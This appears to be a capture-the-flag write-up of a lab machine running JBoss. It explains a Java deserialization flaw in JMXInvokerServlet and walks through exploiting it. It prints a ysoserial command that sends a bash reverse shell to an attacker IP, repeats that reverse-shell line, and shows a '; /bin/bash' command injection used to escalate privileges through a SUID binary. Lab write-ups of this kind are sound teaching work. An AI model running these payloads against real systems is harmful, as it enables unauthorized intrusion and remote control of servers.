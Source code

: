 ```yaml
---
title: Jacob The Boss
tags:
- writeups
---
```


## Recon
![[write-ups/images/Pasted image 20220602213430.png]]

- checking `jacobtheboss.box` on 80 gives us a dummy blog
	- ![[write-ups/images/Pasted image 20220819064559.png]]
	- tried sqli on `index.php?q=` search query, but nothing found
	- let `gobuster` run in the backgroundA

### Enumerating JBOSS
- went to `http://jacobtheboss.box:8080/` & was presented with this
	- ![[write-ups/images/Pasted image 20220819064846.png]]
- [JBoss](https://jbossas.jboss.org/) is an unmaintained project as their home page specifies
	- ![[write-ups/images/Pasted image 20220819065210.png]]
- since thee machine's name is *"Jacob the boss"* & that they literally say it's likely to contain bugs & security vulnerabilities I figured this was the intended way 
- `/web-console/ServerInfo.jsp` & `/status?full=true` often reveal valuable server details
	- ![[write-ups/images/Pasted image 20220819070003.png]]
	- ![[write-ups/images/Pasted image 20220819070118.png]]
- [haktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/jboss) got a note on JBOSS which directed me to [jexboss](https://github.com/joaomatosf/jexboss), a tool specifically made to test & exploit java deserialization vulnerabilities

## Initial Foothold
Got the tool installed locally & ran it hoping for a shell. I know, blindly throwing exploits might not be a good idea if I were in an actual assesment, but it's a CTF => just needed to get things done *(for in-depth details about the exploit check [this section](#Wait what just happened))*
![[write-ups/images/Pasted image 20220819071051.png]]
The gods were with me today & I got a shell. 

## Wait... what just happened
> **Note**: this section goes into detail on how this exploit actually works. However, if you just want shells & use other people scripts without understanding what you're doing, skip this part.

`jexboss.py` tells us it's vulnerable to `jmx-console`, `web-console` & `JMXInvokerServlet`. I'll focus on the latter one in this PoC.


### Examining `jexboss.py` 
`check_vul(url)` is checking the following paths
![[write-ups/images/Pasted image 20220819090040.png]]
the `exploit_jmx_invoker_file_repository` it sends a serialized object through a `POST` req @ `/invoker/JMXInvokerServlet` 
![[write-ups/images/Pasted image 20220819090412.png]]


### Getting deep into source-code
Firing up burp to send a `GET` request to `/invoker/JMXInvoker` gets us ssome [java serialized data](https://docs.oracle.com/javase/8/docs/platform/serialization/spec/protocol.html) *(indicated by the header `¬ísr` or `aced0005` in hex)*
![[write-ups/images/Pasted image 20220819073421.png]]
Researching this on the Internet I found [this awesome video](https://www.youtube.com/watch?v=lH2VNlf91pY) explaining in detail the vulnerability. Briefly speaking, here's what's happening
- in `InvokerServlet.java` it uses the `readObject()` function to get serialized data from a `POST` request
	- ![[write-ups/images/Pasted image 20220819172710.png]]
- investigating the `request` object further, we find that a method called `processRequest` handles it
	- ![[write-ups/images/Pasted image 20220819173015.png]]
- now, the question is where does this function gets called. As it turns out, it's used by 2 primitives `doGet` & `doPost` *(those are used by the java application to properly map HTTP requests to methods)*
	- ![[write-ups/images/Pasted image 20220819173136.png]]
- so the user-supplied `request` data is unfiltered & passed all the way down to `readObject()`. There's our [Deserialization Attack](Deserialization Attacks.md)
- ok but how did we know the url path that maps to our vulnerable class *(i.e `InvokerServlet`)*. Well, java uses an XML file [web.xml](https://javabeat.net/web-xml/) to do the mapping between a class/object name and the URL endpoint
- taking a look at this file we see how the servlet name `JMXInvokerServlet` is mapped to our vulnerable class
	- ![[write-ups/images/Pasted image 20220819173952.png]]
	- ![[write-ups/images/Pasted image 20220819174014.png]]
- so at what endpoint can we find `JMXInvokerServlet` ?  
	- ![[write-ups/images/Pasted image 20220819174258.png]]
- wait where's the `/invoker/` that we've seen in our Burp request ? Sometime java apps run multiple sub-applications or services under them. Which in our case, the one we're interested in is `jboss-service.xml`
	- ![[write-ups/images/Pasted image 20220819174621.png]]

### jboss deserialization to RCE
Now that we know where the actual vulnerable code is & where we can find it the [jexboss py](#Examining jexboss py) script makes more sense. We just need to `POST` a serialized java object on `/invoker/JMXInvokerServlet` that lets us execute code & gain control of the remote server. Luckily for us, we don't need to build the payload from scratch because there's tools such as [yssoserial](https://github.com/frohoff/ysoserial): *"a collection of utilities and property-oriented programming "gadget chains" discovered in common java libraries that can, under the right conditions, exploit Java applications performing **unsafe deserialization** of objects"*

Since they found the gadgets which would allow us to execute code, we just need to figure out which library the app is using. Looking at the source-code, we find that it uses `common-collections:3.1`, so any of these would do the job. *(if we didn't know & were in a black-box scenario, we could just try everything and see what calls back)*
![[write-ups/images/Pasted image 20220819175912.png]]

Testing, with a `ping` payload & seending it with curl
![[write-ups/images/Pasted image 20220819180735.png]]
BOOM, it works. So now let's just spawn a reverse shell:
```bash
sudo docker run 7b65c331be9d CommonsCollections1 "bash -i >& /dev/tcp/10.18.12.227/1234 0>&1" | curl --proxy 127.0.0.1:8080 --data-binary @- http://10.10.79.0:8080/invoker/JMXInvokerServlet
```
But nothing back... Hmm, maybe `CommonsCollections` doesn't like some of the special chars used. Let's try base64 encode our payload & use `bash` to decode / execute it.
![[write-ups/images/Pasted image 20220819181506.png]]
 *(if confused about the `{}` notation check [this](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html#Command-Grouping))*

## Privesc w `pingsys`
 - spawn stable shell with `pwncat-cs`: `bash -i >& /dev/tcp/10.18.12.227/1234 0>&1`
 - nothing in `mysql`
	 - ![[write-ups/images/Pasted image 20220819081439.png]]
 - looked @ [[suid privesc|SUID files hoping for a privesc]]
	 - ![[write-ups/images/Pasted image 20220819081529.png]]
 - the first item on the list is `pingsys` & when searched for it I found [this](https://security.stackexchange.com/questions/196577/privilege-escalation-c-functions-setuid0-with-system-not-working-in-linux) stackeschange discussion about passing `argv[1]` to a custom `ping` C program that runs as root => we can abuse it by suplying a `; /bin/bash` ressulting in pinging & then executing a shell
	 - ![[write-ups/images/Pasted image 20220819082136.png]]
	

## Refs
- [ysoserial](https://github.com/frohoff/ysoserial)
- [hackerone: Java Deserialization RCEE](https://hackerone.com/reports/153026)

## See Also
- [[Deserialization Attacks]]
- [[write-ups/THM]]